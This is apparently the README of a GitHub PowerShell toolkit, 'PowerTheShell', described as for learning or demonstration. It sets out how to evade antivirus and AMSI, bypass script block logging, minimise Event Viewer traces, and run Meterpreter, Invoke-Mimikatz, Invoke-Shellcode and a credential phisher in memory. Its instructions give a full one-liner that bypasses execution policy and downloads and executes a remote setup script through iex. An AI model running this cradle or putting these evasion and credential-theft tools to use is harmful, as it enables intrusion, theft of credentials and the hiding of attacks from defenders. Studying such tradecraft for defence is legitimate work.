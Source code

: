 # PowerTheShell

This repository was created for learning / demonstration purposes and is based on a post by <a href="https://twitter.com/_xpn_" rel="nofollow">@<em>xpn</em></a>, more details available <a href="https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/" rel="nofollow">here</a>.

The goal is:

1. Perform everything in memory without touching the hard disk
2. Run well-known scripts without being intercepted by the AV
3. Execute payload meterpreter without being intercepted by the AV
4. Minimize trace in EventViewer

The main script Setup.ps1 performs the necessary commands for protecting our operational security (not entirely):

1. Script block logging bypass by Ryan Cobb (@cobbr_io)

The main script Setup.ps1 plus AMSI-Setup.ps1 performs one of the following AMSI evasion techniques:

1. Reflection by Matt Graeber (@mattifestation)
2. Patching by Tal Liberman (@Tal_Liberman)
3. Erro forcing by Adam Chester (@_xpn_)

Once the setup phase is over, you can run the console and all its scripts without using any obfuscation technique. In fact, only the commands necessary for AMSI evasion technique are obfuscated.
The command necessary for Script block logging bypass are also obfuscated not for evade AMSI but for leave minimum trace on EventViewer. 

This repository contains well-known scripts such as Invoke-Mimikatz Invoke-Shellcode Invoke-CrerdentialPhisher that
they have been patched or customized for solving issue and easy integration. 

# Instructions

To start the console run this line

powershell -Execution bypass "iex((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/b4rtik/PowerTheShell/master/Setup.ps1'))"
